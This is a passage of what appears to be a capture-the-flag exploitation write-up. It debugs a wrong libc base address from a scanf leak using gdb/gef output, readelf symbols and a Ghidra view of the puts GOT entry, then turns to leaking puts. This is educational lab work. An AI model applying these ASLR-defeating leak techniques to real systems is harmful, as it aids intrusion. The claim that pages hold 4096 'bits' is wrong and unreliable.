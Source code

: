 ```
[#5] 0x7ffcf4bde202 → rex.WR
[#6] 0x7ffcf4bde20f → push rdi
[#7] 0x7ffcf4bde230 → rex.WR push rbx
[#8] 0x7ffcf4bde81f → push rsi
[#9] 0x7ffcf4bde853 → push rdi
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/gx $rdi
0x7f7673655f7a: Cannot access memory at address 0x7f7673655f7a
```

Clearly, since $rdi isn't a proper memory addresses, something went wrong. If we print the libc base address we calculated with `log.info(f"{hex(libc_base_addr)=}")`, we realise that libc_base_addr is wrong: 

```
[*] hex(libc_base_addr)='0x7f76733a1e80'
```

Processes in the OS are stored in fixed-size blocks called pages of 4kb (4096 bits, or 0x1000 bits), so the last three hexadecimal digits of libc_base_addr should be 000. Since libc_base_addr is calculated from our scanf leak, that is likely to be the problem. We run the program with the gdb attachment again, break at main, and run `x 0x7fdd78983f30` where "0x7fdd78983f30" is the leaked address that defers every run. 

```
gef➤  x 0x7fdd78983f30
0x7fdd78983f30 <__isoc99_scanf>:        0xfa894953
```

We see that __isoc99_scanf is not scanf. Searching for that version of scanf in libc using `readelf -s ./libc.so.6 | grep iso`, we find that it is not very easy (at least according to the Youtube tutorial https://www.youtube.com/watch?v=tMN5N5oid2c) to find the function we're looking for: 

```bash
(Linux_Pwn_Venv) asdiml@DESKTOP-XXXXXX:~$ readelf -s ./libc.so.6 | grep iso
   282: 000000000007c550   177 FUNC    GLOBAL DEFAULT   13 __iso[...]@@GLIBC_2.7
   412: 000000000007bf30   475 FUNC    GLOBAL DEFAULT   13 __iso[...]@@GLIBC_2.7
   571: 00000000000cccd0   177 FUNC    GLOBAL DEFAULT   13 __iso[...]@@GLIBC_2.7
   581: 00000000000ccba0   289 FUNC    GLOBAL DEFAULT   13 __iso[...]@@GLIBC_2.7
   863: 000000000007c610   168 FUNC    GLOBAL DEFAULT   13 __iso[...]@@GLIBC_2.7
  1084: 00000000000cc6b0   475 FUNC    GLOBAL DEFAULT   13 __iso[...]@@GLIBC_2.7
  1120: 000000000007c250   457 FUNC    GLOBAL DEFAULT   13 __iso[...]@@GLIBC_2.7
  1252: 00000000000ccd90   173 FUNC    GLOBAL DEFAULT   13 __iso[...]@@GLIBC_2.7
  1674: 00000000000cc890   312 FUNC    GLOBAL DEFAULT   13 __iso[...]@@GLIBC_2.7
  1711: 000000000007c420   289 FUNC    GLOBAL DEFAULT   13 __iso[...]@@GLIBC_2.7
  2092: 000000000007c110   312 FUNC    GLOBAL DEFAULT   13 __iso[...]@@GLIBC_2.7
  2288: 00000000000cc9d0   457 FUNC    GLOBAL DEFAULT   13 __iso[...]@@GLIBC_2.7
```

Let's instead leak puts. Looking at .got.plt in Ghidra, we have

```
                            PTR_puts_00601018                               XREF[1]:     puts:00400540   
        00601018 00  20  60       addr       <EXTERNAL>::puts                                 = ??
                 00  00  00 
                 00  00
```
